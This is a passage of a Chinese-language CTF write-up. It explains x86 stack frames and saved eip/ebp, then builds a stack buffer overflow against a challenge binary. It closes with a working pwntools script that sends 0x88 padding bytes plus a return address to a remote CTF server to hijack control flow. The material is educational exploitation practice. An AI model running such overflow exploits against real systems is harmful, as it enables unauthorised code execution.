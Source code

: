 假设第三条指令地址(printf函数)是0x3,也就是说B函数执行完之后,eip应该执行0x3

那么执行第二条指令开辟的栈的流程就是:

> 保护现场

首先把0x3 eip信息压入栈内,保留了eip程序执行流程的信息。

然后把当前ebp寄存器的值(调用函数A的基地址)压入栈内,然后更将ebp寄存器的值更新为当前栈顶的地址。

这样调用函数A的ebp信息可以得到保存,同时ebp被更新为被调用函数b的ebp地址。

> 恢复现场

首先pop ebp,然后恢复了调用函数A时候的ebp。

然后pop eip 退出栈,恢复之前的下一条eip指令

可能有些人就在想为啥要这样做? eip不变不行吗,为啥要入栈作为返回地址存存起来,这里有个小误区,首先在栈空间里也是需要eip的,所以说栈空间的指令执行的时候eip会发生改变,不作为返回地址存起来的话,那么就会丢失程序流程。

理解之后我们画个堆栈图来理解这个题目

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c4b5886669a3a4f9.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_265_/t01a60216b096fe0d74.jpg)

这里是开辟了0x80的栈空间

看下地址:

[![](https://p1.ssl.qhimg.com/dm/1024_42_/t017a38534332ec7d5d.jpg)](https://p1.ssl.qhimg.com/dm/1024_42_/t017a38534332ec7d5d.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f01d37c4532acca7.jpg)

`0xf0-0x70=0x80`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_203_/t01e528c163154462f2.jpg)

可以看到数据的增长方向(内存地址是随机化的,每次启动都不同)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_209_/t01a93c03e1ca93ce11.jpg)

如果再继续输入的话,就会把ebp给覆盖了。

我们直接可以写exp了。 因为rbp是占用8字节64位寄存器,0x80+0x8=0x88(覆盖rbp之后继续添加数据就覆盖返回地址了)

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
ip, port = '111.198.29.45:37260'.split(':')
# print(ip, port)
c = remote(ip, port)
# c.recvuntil("lets get helloworld for bof")
# p64是小端字节序转换
c.sendline('A'*0x88 + p64(0x400596))
c.interactive()
```
